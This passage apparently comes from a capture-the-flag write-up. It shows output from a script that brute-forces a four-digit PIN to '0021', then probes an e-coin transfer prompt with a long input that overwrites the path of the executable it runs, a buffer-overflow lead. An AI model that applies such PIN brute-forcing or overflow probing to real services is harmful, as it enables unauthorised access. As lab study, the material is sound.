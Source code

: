 ```python
    main()
```

```bash
$ python3 brute.py
Testing 0000
Testing 0001
Testing 0002
Testing 0003
Testing 0004
Testing 0005
Testing 0006
Testing 0007
Testing 0008
Testing 0009
Testing 0010
Testing 0011
Testing 0012
Testing 0013
Testing 0014
Testing 0015
Testing 0016
Testing 0017
Testing 0018
Testing 0019
Testing 0020
Testing 0021
Found pin: 0021
```

Turns out `0021` was the correct pin.

```
 --------------------------------------------------------------
 Please enter the amount of e-coins you would like to transfer:
 [$] 1234
 [$] Transfering $1234 using our e-coin transfer application. 
 [$] Executing e-coin transfer tool: C:\Users\admin\Documents\transfer.exe

 [$] Transaction in progress, you can safely disconnect...
```

Now it prompts us how much e-coins we want to transfer and we see that `transfer.exe` is then executed. But what happens if we put a very long string as our input?

```
 --------------------------------------------------------------
 Please enter the amount of e-coins you would like to transfer:
 [$] AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
 [$] Transfering $AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA using our e-coin transfer application. 
 [$] Executing e-coin transfer tool: AAAAAAAAAAAAAAAAAAA

 [$] Transaction in progress, you can safely disconnect
```
